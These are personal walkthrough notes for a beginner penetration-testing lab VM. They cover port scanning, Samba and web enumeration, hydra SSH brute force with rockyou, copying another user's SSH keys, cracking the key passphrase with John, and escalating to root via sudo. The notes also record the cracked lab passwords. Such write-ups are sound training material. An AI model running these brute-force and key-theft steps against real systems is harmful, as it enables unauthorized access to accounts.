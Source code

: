 ===Basic Pentest	Flutter Jul 19 2021===

'IP 10.10.75.25
	export IP=10.10.75.25'
'MYIP 10.10.31.144
	export IP=10.10.31.144'


# Recon #

----------------
	Scanning
----------------	

- $ nmap -sV -sC -T5 -vv -oN nmap_initial $IP

'''
22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)

80/tcp   open  http        syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
	http-methods: 
 		Supported Methods: GET HEAD POST OPTIONS
	http-server-header: Apache/2.4.18 (Ubuntu)
	http-title: Site doesn't have a title (text/html).

139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)

8009/tcp open  ajp13       syn-ack ttl 64 Apache Jserv (Protocol v1.3)
	ajp-methods: 
		Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http-proxy  syn-ack ttl 64
'''
	> running Apache http
	> running Samba


---Samba Enumeration---

- $ enum4linux -a $IP | tee enum4$IP.log

	> Shares Discovered

		'''
		Anonymous       Disk      
		IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
		'''

	> Users Discovered

		'''
		Unix User\kay (Local User)
		Unix User\jan (Local User)
		BASIC2\nobody (Local User)
		'''


---Site---

- $ gobuster dir -u http://$IP -w directory-list-2.3-medium.txt -o gobuster_80

'''
/development (Status: 301)
/server-status (Status: 403)
'''

---------------------
	Visiting Site
---------------------

- http://$IP/ source
	'''
	Undergoing maintenance

	Please check back later

	//Check our dev note section if you need to know what to work on.
	'''

- http://$IP/development
	> dev.txt

		'''
		2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
		to host that on this server too. Haven't made any real web apps yet, but I have tried that example
		you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
		using version 2.5.12, because other versions were giving me trouble. -K

		2018-04-22: SMB has been configured. -K

		2018-04-21: I got Apache set up. Will put in our content later. -J
		'''

	> j.txt

		'''
		For J:

		I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
		and I was able to crack your hash really easily. You know our password policy, so please follow
		it? Change that password ASAP.

		-K
		'''

---Users---

- jan
- kay 


# Intrusion #

- $ ssh jan@10.10.75.25
	pass: armando (See Passwords)

- jan@basic2:~$ id
	> uid=1001(jan) gid=1001(jan) groups=1001(jan)
 


# PrivEsc # 

- jan@basic2:~$ sudo -l
	Password protected, tried "armando"
	'''
	Sorry, user jan may not run sudo on basic2.
	'''

- find / -typ f -user root -perm -u=s 2>/dev/null
	> Nothing useful found :c

---Lateral Movement---

- jan@basic2:~$ ls -la /home
	'''
	drwxr-xr-x  2 root root 4096 Apr 23  2018 jan
	drwxr-xr-x  5 kay  kay  4096 Apr 23  2018 kay
	'''

- jan@basic2:~$ ls -la /home/kay
	'''
	-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
	drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
	'''

- $ scp -r jan@$IP:/home/kay/.ssh kay_ssh/
- $ chmod 600 id_rsa
- $ ssh -i id_rsa kay@$IP
	> Enter passphrase for key 'id_rsa':
	//grr, see Passwords

- $ ssh kay@$IP
	pass: beeswax

- kay@basic2:~$ id
	'''
	uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
	'''

- $ scp -i id_rsa kay@10.10.75.25:/home/kay/pass.bak Passwords/
	> pass.bak
	  pass: heresareallystrongpasswordthatfollowsthepasswordpolicy$$

- kay@basic2:~$ sudo -l
	Password protected, tried "heresareallystrongpasswordthatfollowsthepasswordpolicy$$"
		> User kay may run the following commands on basic2:
    		(ALL : ALL) ALL

- kay@basic2:~$ sudo su root
	> root gained

**Flag Found**
	/root/flag.txt:

	'''
	Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
	a shell, and two ways to privesc. I encourage you to find them all!

	If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
	takeaways from this challenge should be that every little bit of information you can find can be
	valuable, but sometimes you'll need to find several different pieces of information and combine
	them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
	an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
	in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
	therefore might've been overlooked by administrators.

	Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
	out to me.

	Happy hacking!
	'''

# Passwords #

----------------
	Cracking
----------------

- jan ssh
	hydra -L users.txt -P rockyou.txt -o initial_pass
		> users.txt

			jan
			kay
			
		> initial_pass

			'''
			login: jan | pass: armando
			Stopped. (kay was taking too long)
			'''

- kay ssh private key passphrase
	ssh2john id_rsa > kay_john
	john kay_john --wordlist=rockyou.txt
	pass: beeswax

---------------
	Exposed
---------------

- kay ssh
	pass.bak
	pass: heresareallystrongpasswordthatfollowsthepasswordpolicy$$